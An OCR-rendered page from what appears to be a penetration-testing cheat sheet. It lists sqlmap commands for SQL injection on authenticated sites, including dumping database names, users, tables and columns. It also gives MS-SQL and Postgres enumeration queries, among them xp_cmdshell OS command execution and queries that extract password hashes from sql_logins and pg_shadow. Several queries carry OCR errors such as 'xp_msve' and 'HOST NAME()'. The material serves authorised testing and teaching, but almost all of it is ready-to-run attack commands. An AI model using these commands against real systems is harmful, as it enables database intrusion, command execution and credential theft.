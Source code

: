 
SQL INJECTION ON AUTHENTICATED SITE

1. Login and note cookie value (cookie1=val1, cookie2=val2) 
./sqlmap.py -u "http:// url " --data="id=1&str=val" -p "id"
--cookie="cookie1=val1;cookie2=val2"


SQL INJECTION AND COLLECT DB VERSION, NAME, AND USER

./sqlmap.py -u "http:// url " --data="id=1&str=val" -p "id" -b --current-db --current-user

SQL INJECTION AND GET TABLES OF DB=TESTDB

./sqlmap.py -u "http:// url " --data="id=1&str=val" -p "id" --tables -D "testdb"


SQL INJECTION AND GET COLUMNS OF USER TABLE

./sqlmap.py -u "http:// url " --data="id=1&str=val" -p "id" --columns -T "users"


DATABASES


MS-SQL

SELECT @@version                                DB version
EXEC xp_msve                                    Detailed version info
EXEC master..xp_cmdshell 'net user'             Run OS command
SELECT HOST NAME()                              Hostname & IP
SELECT DB_NAME()                                Current DB
SELECT name FROM master..sysdatabases;          List DBs
SELECT user_name()                              Current user
SELECT name FROM master..syslogins              List users
SELECT name FROM master..sysobjects WHERE       List tables
xtype='W;
SELECT name FROM syscolumns WHERE id=(SELECT    List columns
id FROM sysobjects WHERE name='mytable');


SYSTEM TABLE CONTAINING INFO ON ALL TABLES

SELECT TOP 1 TABLE NAME FROM INFORMATION_SCHEMA.TABLES


LIST ALL TABLES/COLUMNS

SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'mytable')


PASSWORD HASHES (2005)

SELECT name, password_hash FROM master.sys.sql_logins


POSTGRES

SELECT version();                        DB version
SELECT inet_server_addr()                Hostname & IP
SELECT current_database();               Current DB
SELECT datname FROM pg_database;         List DBs
SELECT user;                             Current user
SELECT username FROM pg_user;            List users
SELECT username,passwd FROM pg_shadow    List password hashes
